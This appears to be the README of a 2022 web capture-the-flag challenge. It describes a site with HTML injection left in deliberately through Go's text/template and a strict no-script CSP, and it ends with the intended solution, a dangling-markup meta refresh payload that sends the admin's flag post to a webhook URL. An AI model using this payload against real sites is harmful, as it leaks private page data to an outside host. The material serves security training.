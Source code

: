 # No-JS

Square 2022 Web CTF challenge

## Description

Reverting back to the ye-olde days, absolutely no javascript is allowed on my pure site. No vulnerabilities allowed here, no sir!

## Notes

The flag is stored as a post on the admin user's profile. When you share a note to the admin, it'll show up in the same page as the post (`"/"`), and the admin bot will visit it.

The site (intentionally) uses Go's `text/template` instead of `html/template` package. This allows for arbitrary HTML injection to occur on the site, as text/template doesn't attempt to sanitize at all. The site also sets the following security headers:

```
Content-Security-Policy: "default-src 'self'; script-src 'none'"
X-XSS-Protection: 0
X-Content-Type-Options: "nosniff"
X-Frame-Options: "sameorigin"
```

This has the following (important to note) consequences:
1. No javascript is allowed to execute at all on the page. 
2. Unsafe-inline isn't set, so inline <style></style> tags are also blocked. 

The flag is in the admin post below. To leak the post, you can do dangling markdown to do the following:

```
<meta http-equiv="refresh" content='0; url=https://webhook.site/#!/your_webhook_site_id?
```
